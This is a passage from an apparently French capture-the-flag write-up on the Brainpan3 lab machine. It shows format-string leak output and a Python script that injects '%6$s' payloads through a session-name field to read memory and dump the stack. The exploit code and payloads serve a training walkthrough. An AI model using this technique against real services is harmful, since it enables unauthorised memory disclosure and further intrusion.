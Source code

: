 ```plain
%1$.8X => 0xBF9301BC '\xBC\x01\x93\xBF'
%2$.8X => 0x00000104 '\x04\x01\x00\x00'
%3$.8X => 0x2E243325 '%3$.'
%4$.8X => 0x00005838 '8X\x00\x00'
%5$.8X => 0xB771A858 'X\xA8q\xB7'
%6$.8X => 0xB7710C20 ' \x0Cq\xB7'
%7$.8X => 0x00001000 '\x00\x10\x00\x00'
%8$.8X => 0xB7718000 '\x00\x80q\xB7'
%9$.8X => 0xB7640513 '\x13\x05d\xB7'
b'%5$08sAA\xbc\x01\x93\xbfCCCAA\xbc\x01\x93\xbf'
b'        AAX\xa8q\xb7'
b'\x88 \xad\xfb\x05\x80q\xb7\x05\x80q\xb7AA \x0cq\xb7'
b' 5757\nX\nA\n  AUTH   [Y]    REPORT [N]    MENU   [Y]  \n--------------------------------------------------------------\n\n\n1  - CREATE REPORT\n2  - VIEW CODE REPOSITORY\n3  - UPDATE SESSION NAME\n4  - SHELL\n5  - LOG OFF\n\nENTER COMMAND: '
b'[=\x01\xf0\xff\xffs2\xc3\xe8_\xe5\x01AA\x13\x05d\xb7'
```

Ça nous conforte dans notre cheminement. Maintenant on peut prendre l'adresse la plus grosse qui correspondra probablement approximativement à la valeur actuelle d'ESP (sommet de la stack) et explorer jusqu'à la base de la stack.  

Pour ce faire on ne vas pas incrémenter stupidement les adresses d'octet en octet mais augmenter du nombre d'octets dumpés à chaque fois. Il faut aussi gérer les cas particuliers où rien n'est retourné (parce que l'adresse pointe vers NULL) et aussi le fait qu'on ne peut pas passer sereinement une adresse contenant un octet nul :  

```python
dump = b''
# max for stack
start = max(memory_addresses)
addr = start

try:
    for i in range(200):
        if addr & 0xFF == 0:
            addr += 1
            dump += b"\0"
            continue

        session = b"AAAA%6$sBBBB" + struct.pack("<I", addr) + b"DDDD"
        sock.send(b"3\n")
        wait_until(sock, "NEW SESSION NAME:")
        sock.send(session)
        pattern, buff = wait_until(sock, "ENTER COMMAND:")
        data = buff.split(b"AAAA")[1].split(b"BBBB")[0]
        print(hex(addr), repr(data))

        if len(data):
            dump += data
            addr += len(data)
        else:
            dump += b"\0"
            addr += 1

        # if b"brainpan3" in data:
        #     break
except KeyboardInterrupt:
    pass

print("Dump starts at 0x{:08x}".format(start))

with open("/tmp/stack", "wb") as fd:
    fd.write(dump)
```
